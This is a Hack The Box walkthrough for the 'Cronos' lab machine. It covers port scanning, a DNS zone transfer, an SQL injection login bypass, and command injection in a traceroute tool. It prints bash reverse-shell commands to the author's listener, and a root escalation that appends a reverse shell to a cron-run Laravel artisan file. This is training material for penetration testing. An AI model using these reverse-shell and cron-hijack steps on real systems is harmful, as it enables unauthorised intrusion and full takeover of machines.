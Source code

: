 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [DNS Server](#dns-server)
	- [Laravel Web App](#laravel-web-app)
- [Foothold](#foothold)
	- [SQL Injection](#sql-injection)
	- [Command Injection](#command-injection)
- [Privilege Escalation](#privilege-escalation)
	- [Scheduled Tasks](#scheduled-tasks)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.13 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 22,53,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.13 -p22,53,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 09:12 +07
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
```

### DNS Server

At port 53, I used `nslooup` to enum ip 10.10.10.13 and got the name server `ns1.cronos.htb`

```
### DNS Enumeration (53) ############################
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

Add domain `ns1.cronos.htb` and `cronos.htb` to file `/etc/hosts` and `dig` enum.

```
┌──(Hades㉿10.10.14.5)-[2.0:21.4]~/scripting
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
<snip>
```

### Laravel Web App

There is defaul Apache page at port 80, but after add domain `cronos.htb` and go to it, I got a web application power by Laravel

![](images/2.png)

Add `admin.cronos.htb`, `www.cronos.htb` to file `/etc/hosts`


```
10.10.10.13 cronos.htb admin.cronos.htb www.cronos.htb ns1.cronos.htb
```

![](images/3.png)

## Foothold

### SQL Injection

At admin page, I try some payload SQLi to bypass authentication and I got it.

![](images/4.png)

### Command Injection

Admin page is Net Tool support `traceroute` server, but in the command box, I inject command `ls` and got the result.

![](images/5.png)

Inject command `bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'` and got the remote code execution.

```
┌──(Hades㉿10.10.14.5)-[2.9:23.4]~/walkthrough/hackthebox/cronos
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53806
sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Scheduled Tasks

Add file `/etc/crontab`, I know that the system running file `/var/www/laravel/artisan` with php command as root.

```
www-data@cronos:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Check permission file `/var/www/laravel/artisan`, This file owned by www-data, can easy to modify it.

```
www-data@cronos:/var/www$ ls -lh /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 /var/www/laravel/artisan
```

At simple system command to execute shell code in `/var/www/laravel/artisan`.

```
echo system("bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'"); >> /var/www/laravel/artisan
```

Waiting 1 minute, I have root shell at my listener.

```
┌──(Hades㉿10.10.14.5)-[2.9:25.2]~/priescal/PEASS/linPEAS
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53762
sh: 0: can't access tty; job control turned off
# whoami
root
```